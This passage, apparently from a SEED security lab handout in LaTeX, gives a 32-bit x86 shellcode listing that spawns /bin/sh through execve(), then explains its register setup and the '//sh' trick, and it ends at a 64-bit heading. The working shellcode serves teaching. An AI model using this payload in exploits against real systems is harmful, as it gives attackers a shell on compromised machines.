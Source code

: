\subsection{32-bit Shellcode} 


\begin{lstlisting}[language={[x86masm]Assembler}] 
; Store the command on stack
xor  eax, eax
push eax          
push "//sh"
push "/bin"
mov  ebx, esp     ; ebx --> "/bin//sh": execve()'s 1st argument

; Construct the argument array argv[]
push eax          ; argv[1] = 0
push ebx          ; argv[0] --> "/bin//sh"
mov  ecx, esp     ; ecx --> argv[]: execve()'s 2nd argument

; For environment variable 
xor  edx, edx     ; edx = 0: execve()'s 3rd argument

; Invoke execve()
xor  eax, eax     ; 
mov  al,  0x0b    ; execve()'s system call number
int  0x80
\end{lstlisting}


The shellcode above basically invokes the \texttt{execve()} system call 
to execute \texttt{/bin/sh}. In a separate SEED lab, the Shellcode lab, 
we guide students to write 
shellcode from scratch. Here we only give a very brief explanation. 

\begin{itemize}
\item The third instruction pushes \texttt{"//sh"}, rather than \texttt{"/sh"} into the 
stack. This is because we need a 32-bit number here, and \texttt{"/sh"} 
has only 24 bits. Fortunately, \texttt{"//"} is equivalent to \texttt{"/"}, so we can get 
away with a double slash symbol. 

\item We need to pass three arguments to {\tt execve()} via 
the \texttt{ebx}, \texttt{ecx} and \texttt{edx} registers,    
respectively. The majority of the shellcode basically constructs
the content for these three arguments. 

\item The system call \texttt{execve()} is called when we set \texttt{al} to
\texttt{0x0b}, and execute \texttt{"int 0x80"}.
\end{itemize}
 


\subsection{64-Bit Shellcode} 

